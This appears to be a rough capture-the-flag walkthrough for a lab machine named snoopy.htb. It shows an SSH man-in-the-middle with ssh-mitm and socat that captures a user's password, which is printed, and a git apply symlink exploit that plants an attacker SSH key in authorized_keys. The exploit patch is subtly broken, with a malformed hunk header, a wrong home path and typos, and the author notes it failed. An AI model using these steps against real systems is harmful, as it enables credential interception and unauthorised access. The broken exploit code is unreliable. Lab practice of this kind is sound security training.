We remove the 3D and the second =, since it is URL encoded and change the password. in the message above


### ssh mitm attack

/server_provision we put on the message box



We will try to perform an SSH MITM so we listen on port 10022.

`ssh-mitm server --remote-host snoopy.htb`

And through socat we listen on port 2222 that they indicate in the form, and send it to port 10022, which is where the SSH Mitm server is.
` sudo socat TCP-LISTEN:2222,fork TCP:127.0.0.1:10022`


after cpnducting ssh-mitm the creds

ssh cbrown@snoopy.htb
sn00pedcr3dential!!!


sudo -l

```
sudo -l
[sudo] password for cbrown: 
Matching Defaults entries for cbrown on snoopy:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git ^apply -v [a-zA-Z0-9.]+$
```


associated CVE 

https://github.blog/2023-02-14-git-security-vulnerabilities-announced-3/


mkdir repo
cd repo
git inti

```
echo "diff --git a/symlink b/renamed-symlink
similarity index 100%
rename from symlink
rename to renamed-symlink
--
diff --git /dev/null b/renamed-symlink/create-me
new file mode 100644
index 0000000..039727e
--- /dev/null
+++ b/renamed-symlink/authorized_keys
@@ -0.0 +1.1 @@
+ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCWOWXOkm4ixNz5lOMr95VdpVKlCLuP0DEv7f513JWQVGsWh5F1ygGfopYkGOICBl7hiXMsYPa3L+8uw/T6YMtkW5JGNJOUvlv7wb/NCw+S4pmHXkiejysSfVNRXMniF3d54TLnIuTbDq9n9Z2HW5S3RuQI/ZdyZAEZRbOUPU+Z0QTN9Cp5ubEN4bml5X52J4ada8my/32E6nz8DMDra4sjerqGtxZnCo1pQass24/+FsVj7+0XdIN+H56fx+2/8bm9lJiKHY+t6DOW0jK9aMKW7J7PAKMy7e56y/bEH9HlaJNAjs/YqU6YkWUb0wP6bmzESTpXsLvdgQ13HKngkPxpuvia7/tlL6TWZX5+UdiiRsBodHIsZAXu9YZ3VfF1dZn/xt/j7zcYUBm1og2MzooQGEJcl/3e7/oqeFb2LawunbcCON7WZl8zpnuuRLn/WdwxAoXYJuzXPEsMAjF6wSuz0rHiNG3AYxBy76ec6Z4EvBcikdFdqYvxCA7UsBgyrQ0= mrx@whoami" > patch

```

ln -s /home/brown/.ssh symlink

chmod 777 /home/cbrown
chmod 777 /home/cbrown/repo
sudo -u sbrown /usr/bin/git apply patch

this wont work as they have changed the repo permissions

git apply doesnt work

need to find another way to privilege escalate?


